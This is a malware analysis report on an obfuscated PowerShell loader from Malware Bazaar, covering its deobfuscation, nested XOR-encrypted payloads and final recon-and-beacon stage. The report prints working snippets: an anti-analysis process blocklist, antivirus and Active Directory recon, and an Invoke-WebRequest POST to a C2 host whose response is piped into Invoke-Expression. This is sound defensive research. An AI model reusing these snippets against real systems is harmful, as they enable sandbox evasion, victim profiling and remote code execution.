

# Source

* Malware Bazaar: https://bazaar.abuse.ch/sample/4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339/
* File type: Powershell
* Size: ~14 KB

# Analysis

## Obfuscation

The script had obfuscation through:

* Array of strings:

```
$xBJg5oAOG = @(
    'HxxPWU9PVVNSHFFdTldZThxYDUxfZE1+fWZ1DXpfNjZaSVJfSFVTUhxdVVl6SApNehxHHGdKU1',
    'VYYWdvRU9IWVESe39hBgZ/U1BQWV9IFBUcQTZaSVJfSFVTUhxsUn9GUkQJbVgcRxxMXU5dURQY',
    'RBUcGEQcFhwOHBEcGEQcQTY2GHlpVld9WHNyZhwBHHwUNhwcHBwbVmULWEUFD1hEBHR9Vk9sbA',
    ...
) -join ''
```

* Wildcard expression:

```
$GC26R7CF = (Get-Command 'I*nv*o*k*e*-*E*x*p*r*e*s*s*i*o*n').Name
```

* Dead/junk code.

```
function Tfy5r5KYavu { if(0 -eq 1){ 'never' } }
function PLui99Mn { [void][System.GC]::Collect() }
...
$x8SQiX = 'temp' + 'cache' + 'data'
...
function ItlxjGezL { param($x) $x * 2 - $x }
$XR8ZN = 3869599
```

## Deobfuscation

Utilities: https://github.com/nikhilh-20/re_tools/tree/main/powershell

```
 > .\PsFold-ArrayJoins.ps1 -InputFile C:\Users\Ashura\Desktop\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339.ps1 -OutputFile C:\Users\Ashura\Desktop\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339_pass1.ps1
{"changed":1,"output_path":"C:\\Users\\Ashura\\Desktop\\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339\\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339_pass1.ps1","output_bytes":12999,"input_bytes":14345}

> .\PsRemove-DeadCode.ps1 -InputFile C:\Users\Ashura\Desktop\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339_pass1.ps1 -OutputFile C:\Users\Ashura\Desktop\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339_pass2.ps1
{"changed":7,"output_path":"C:\\Users\\Ashura\\Desktop\\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339\\4c21836bcf4cdfd6d4810edcbfa2ea5f4ac9f8b3ce8c24aa74085f4bc4c22339_pass2.ps1","output_bytes":12766,"by_reason":"1x dead if (unreachable/empty), 3x dead function, 3x dead store","input_bytes":12999}
```

## Evasion

The script used `*` wildcard operator to perform static detection evasion.

```
Get-Command 'I*nv*o*k*e*-*E*x*p*r*e*s*s*i*o*n'
```

## Payload

The script contained a large ASCII blob, which when base64-decoded and XOR-decrypted (decimal key: `60`), resulted in another Powershell script. This payload followed the same obfuscation and payload encryption patterns as the parent script. When its payload was decrypted, it was also a Powershell script containing the same obfuscation and payload encryption patterns as before. This nest had a few more layers until it reached the final payload, which was an unobfuscated Powershell script.

The nested obfuscation and payload encryption was an anti-manual static analysis measure to slow down an analyst.

## Final Payload Functionality

### Flowchart



### Report

#### Executive Summary

`payload4.ps1` is a lightweight PowerShell recon-and-loader script — an intermediate stage in a larger infection chain rather than a final payload. Before doing anything else, it checks the list of currently running processes for common security, debugging, and virtualization tools (e.g., Wireshark, Process Hacker, Sysmon, IDA, x64dbg, VMware/VirtualBox agents) and immediately aborts if any are found, indicating it is designed to evade analysis sandboxes and researcher workstations.

If the environment passes this check, the script determines whether the victim machine belongs to a corporate Windows domain or is a standalone/home ("WORKGROUP") system, and gathers different reconnaissance data depending on which it is: installed antivirus product name(s) for home users, and additionally the domain name and a rough headcount of Active Directory computers for corporate victims. This data is sent to a hardcoded command-and-control (C2) server over HTTPS.

The most significant risk is that in both cases, the raw response returned by the C2 server is piped directly into `Invoke-Expression`, meaning the attacker can cause the victim machine to execute **any** arbitrary PowerShell code of their choosing immediately after check-in, with no validation. This effectively hands the attacker full remote code execution on the host and lets them tailor the next stage (e.g., ransomware, an infostealer, or a RAT) based on whether the target is a home user or part of a larger enterprise network — corporate/domain-joined victims likely receive different, higher-value follow-on payloads. Because the script itself is not obfuscated and drops no files or persistence mechanisms, it is best understood as a disposable, single-use loader/beacon whose value to the attacker is picking targets and fetching whatever comes next.

#### Details

##### Anti-Analysis / Environment Evasion

```powershell
$a = @(
    "wireshark", "processhacker", "fiddler", "procexp",
    "procmon", "sysmon", "ida", "x32dbg", "x64dbg", "ollydbg", "cheatengine",
    "scylla", "scylla_x64", "scylla_x86", "immunitydebugger", "windbg",
    "reshacker", "reshacker32", "reshacker64", "hxd", "ghidra", "lordpe",
    "tcpview", "netmon", "sniffer", "snort", "apimonitor", "radare2", "procdump",
    "dbgview", "de4dot", "detectiteasy", "detectit_easy", "dumpcap", "netcat",
    "bintext", "dependencywalker", "dependencies", "prodiscover", "sysinternals",
    "netlimiter", "sandboxie", "vmware", "virtualbox", "vmtools", "VMwareService", "VMwareTray", "VBoxService", "VBoxTray",
    "qemu-ga", "prl_cc"
)
Get-Process | ForEach-Object {
    $processName = $_.Name.ToLower()
    foreach ($tool in $a) {
        if ($processName -like "*$tool*") {
            Write-Host "***" 
            exit
        }
    }
}
```

This block enumerates every running process on the host and lower-cases its name, then performs a case-insensitive substring match (`-like "*$tool*"`) against a hardcoded list of roughly 50 tool names. The list spans four categories: network/traffic analyzers (Wireshark, Fiddler, TCPView, netmon, Snort, dumpcap), process and debugging tools (Process Hacker/`processhacker`, Process Monitor/Process Explorer, Sysmon, IDA, x32dbg/x64dbg, OllyDbg, WinDbg, Cheat Engine, ProcDump, DbgView, API Monitor, Radare2, Ghidra), unpacking/deobfuscation utilities (de4dot, Detect It Easy, Scylla, LordPE, HxD, BinText), and virtualization/sandbox artifacts (VMware and VirtualBox processes/services such as `VMwareService`, `VMwareTray`, `VBoxService`, `VBoxTray`, QEMU guest agent, Parallels' `prl_cc`, and Sandboxie). If any single match is found, the script writes `***` to the console and calls `exit`, terminating before any network activity or recon occurs. This is a purely process-name-based check — it has no VM hardware fingerprinting, registry artifact checks, or timing-based sandbox detection, so it would only be defeated by having a matching tool actively running (or by renaming/hiding those processes) at the moment the script executes.

##### Target Profiling (Workgroup vs. Domain)

```powershell
$domain    = (Get-CimInstance Win32_ComputerSystem).Domain
if ($domain -eq 'WORKGROUP') {   
    ...
}
else {
    ...
}
```

Once the environment check passes, the script queries `Win32_ComputerSystem.Domain` via CIM to classify the victim machine into one of two buckets. A `Domain` value of `WORKGROUP` indicates the machine is not joined to an Active Directory domain — i.e., a standalone consumer/home PC — and routes execution into the lighter-weight branch. Any other domain value indicates the machine is joined to a corporate Windows domain, routing execution into a branch that performs deeper environment reconnaissance. This split lets the operator treat home users and enterprise endpoints differently from the very first beacon.

##### Reconnaissance Data Collected

```powershell
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct |
    Select-Object -ExpandProperty DisplayName |
    Out-String
```

```powershell
$dcCount   = (net group "Domain Computers" /domain 2>$null | Select-String '\$').Count * 3
$message = "BCDA222`nAV: $av`n| $domain |`nAD: $dcCount"
```

In the WORKGROUP (home-user) branch, the script queries the `AntivirusProduct` WMI class under `root/SecurityCenter2` to enumerate the display name(s) of any installed antivirus product(s), and prefixes the outbound message with the literal tag `ABCD111`. In the domain-joined (enterprise) branch, it collects the same AV product list plus the domain name, and additionally estimates the size of the Active Directory environment by running `net group "Domain Computers" /domain`, counting the output lines containing a `$` (each domain-joined computer account is listed with a trailing `$`), and multiplying that count by 3 as a rough scaling heuristic for total AD computer count. This richer payload is prefixed with the tag `BCDA222`. These two tags (`ABCD111` for home/workgroup victims, `BCDA222` for domain-joined victims) let the operator's C2 backend automatically bucket and prioritize incoming check-ins — corporate networks with larger estimated computer counts are presumably higher-value targets for follow-on payloads such as ransomware.

##### C2 Communication and Second-Stage Execution

```powershell
iwr 'https://road-to-hell.top/m' `
    -Method POST `
    -Body @{ message = "ABCD111`n$(...)" } `
    -ContentType 'application/x-www-form-urlencoded' `
    -UseBasicParsing | iex
```

```powershell
iwr -Uri 'https://road-to-hell.top/m' -Method POST -Body @{message=$message} -ContentType 'application/x-www-form-urlencoded' -useb | iex
```

Both branches ultimately converge on the same behavior: an HTTP POST is sent via `Invoke-WebRequest` (aliased `iwr`) to the hardcoded C2 endpoint `https://road-to-hell.top/m`, with the collected recon data placed in a `message` field of an `application/x-www-form-urlencoded` request body. Critically, the entire response body returned by the server is piped directly into `Invoke-Expression` (`iex`) with no integrity check, signature validation, or content inspection of any kind. This means the C2 operator can serve back any PowerShell code they choose — different code for `ABCD111` vs. `BCDA222` check-ins if desired — and it will execute immediately and unconditionally in the context of the current user on the victim machine. This single `| iex` pattern is the core "loader" functionality of the script: everything before it exists only to decide whether to check in and what recon data to send along with that check-in.

##### Absence of Persistence or File Drops

No registry run keys, scheduled tasks, services, startup folder entries, or dropped files are created by this script. Persistence, if any, would need to be established by whatever code the C2 server returns in the `iex`'d response, which was not observed/available for this analysis. This confirms that this payload functions purely as a disposable recon-and-fetch stage.

#### IOCs

##### Network Indicators

- `hxxps://road-to-hell[.]top/m` — C2 check-in and second-stage retrieval endpoint (HTTP POST, form field `message`)
